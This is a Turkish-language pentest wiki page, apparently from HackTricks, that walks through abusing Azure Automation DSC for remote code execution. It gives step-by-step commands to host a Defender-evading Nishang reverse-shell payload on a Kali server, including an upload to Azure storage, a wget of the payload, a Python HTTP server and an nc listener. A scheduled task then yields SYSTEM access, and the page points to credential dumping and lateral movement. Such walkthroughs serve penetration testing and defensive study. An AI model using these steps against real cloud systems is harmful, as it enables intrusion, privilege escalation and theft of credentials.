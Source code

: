 # Az - State Configuration RCE

{{#include ../../../../banners/hacktricks-training.md}}

**Tam gönderiyi kontrol edin:** [**https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe**](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)

### Uzaktan Sunucu (C2) Altyapı Hazırlığı ve Adımlarının Özeti

#### Genel Bakış

Bu süreç, Windows Defender'ı atlatmak için tasarlanmış, `RevPS.ps1` adında değiştirilmiş bir Nishang `Invoke-PowerShellTcp.ps1` yükünü barındırmak üzere bir uzaktan sunucu altyapısının kurulmasını içerir. Yük, IP'si `40.84.7.74` olan bir Kali Linux makinesinden basit bir Python HTTP sunucusu kullanılarak sunulmaktadır. İşlem birkaç adımda gerçekleştirilir:

#### Adım 1 — Dosyaları Oluştur

- **Gerekli Dosyalar:** İki PowerShell betiğine ihtiyaç vardır:
1. `reverse_shell_config.ps1`: Yükü alıp çalıştıran bir İstenilen Durum Yapılandırması (DSC) dosyasıdır. [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse_shell_config.ps1) adresinden temin edilebilir.
2. `push_reverse_shell_config.ps1`: Yapılandırmayı VM'ye yayınlamak için bir betiktir, [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push_reverse_shell_config.ps1) adresinde mevcuttur.
- **Özelleştirme:** Bu dosyalardaki değişkenler ve parametreler, kullanıcıya özgü ortam için, kaynak adları, dosya yolları ve sunucu/yük tanımlayıcıları dahil olmak üzere özelleştirilmelidir.

#### Adım 2 — Yapılandırma Dosyasını Ziple

- `reverse_shell_config.ps1` bir `.zip` dosyasına sıkıştırılır, böylece Azure Storage Account'a transfer için hazır hale gelir.
```powershell
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```
#### Adım 3 — Depolama Bağlamını Ayarla ve Yükle

- Sıkıştırılmış yapılandırma dosyası, Azure'un Set-AzStorageBlobContent cmdlet'ini kullanarak önceden tanımlanmış Azure Storage konteyneri olan azure-pentest'e yüklenir.
```powershell
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```
#### Adım 4 — Kali Kutusunu Hazırlama

- Kali sunucusu RevPS.ps1 yükünü bir GitHub deposundan indirir.
```bash
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```
- Script, hedef Windows VM ve ters shell için port belirtmek üzere düzenlenir.

#### Adım 5 — Yapılandırma Dosyasını Yayınla

- Yapılandırma dosyası çalıştırılır ve ters shell scripti, Windows VM üzerindeki belirtilen konuma dağıtılır.

#### Adım 6 — Payload'ı Barındır ve Dinleyici Kur

- Payload'ı barındırmak için bir Python SimpleHTTPServer başlatılır ve gelen bağlantıları yakalamak için bir Netcat dinleyicisi kurulur.
```bash
sudo python -m SimpleHTTPServer 80
sudo nc -nlvp 443
```
- Zamanlanmış görev, yükü çalıştırarak SYSTEM düzeyinde ayrıcalıklar elde eder.

#### Sonuç

Bu sürecin başarılı bir şekilde yürütülmesi, kimlik bilgisi dökümü veya saldırının birden fazla VM'ye genişletilmesi gibi daha fazla eylem için birçok olasılık açar. Kılavuz, Azure Automation DSC alanında sürekli öğrenmeyi ve yaratıcılığı teşvik eder.

{{#include ../../../../banners/hacktricks-training.md}}
